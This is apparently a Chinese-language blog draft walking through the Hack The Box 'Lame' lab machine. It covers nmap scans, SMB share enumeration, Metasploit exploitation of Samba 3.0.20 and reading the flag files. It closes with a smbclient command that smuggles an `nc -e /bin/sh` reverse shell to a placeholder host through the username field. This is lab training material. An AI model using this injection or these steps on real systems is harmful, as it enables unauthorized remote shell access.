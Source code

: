 
+++
title = 'lame'
date = '2023-12-07T16:08:29+08:00'
draft = true
+++
```
nmap -sV -vv -sT --script vuln 10.129.192.173 > res.txt 2>&1
```



```
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

#### 发现开放了21，22，139，445端口。这里补充一个nmap的技巧，当我们想要更深入了解某一个服务的版本，比方说smb的服务版本。可以使用

```
ls /usr/share/nmap/scripts|grep {service name}
```

#### 我这里看了writeup使用了smb-enum-shares吗，正常的情况下应该对每一种可能出现漏洞的服务进行漏洞扫描。（比如vsftpd,openssh等等其他的服务，都需要仔细地对可能出现漏洞的每一个服务信息收集）

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 11:10 CST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.129.119.38
Host is up (0.24s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: <blank>
|   \\10.129.119.38\ADMIN$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.129.119.38\IPC$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|   \\10.129.119.38\opt: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.129.119.38\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|   \\10.129.119.38\tmp: 
|     Type: STYPE_DISKTREE
|     Comment: oh noes!
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|_    Anonymous access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 106.91 seconds

```

#### 启动msfconsole，search  Samba 3.0.20-Debian，没有结果。扩大搜索范围search  Samba 3.0.20，找到对应漏洞利用模块。拿到靶机shell。

将shell升级为交互式shell，使用以下模块

```
use post/multi/manage/shell_to_meterpreter
sessions -l 
set session 1
run
cat /home/makis/user.txt
cat /root/root.txt
```

#### 总结：信息收集阶段一定要仔细，对每一个端口上运行的程序，程序的版本都要作记录。因为后续漏洞发现阶段需要用到程序的版本信息。附上不使用msf的漏洞利用命令

```
smbclient -U “/=\`nohup nc -e /bin/sh LHOST LPORT\`” -N -I target_ip 
```

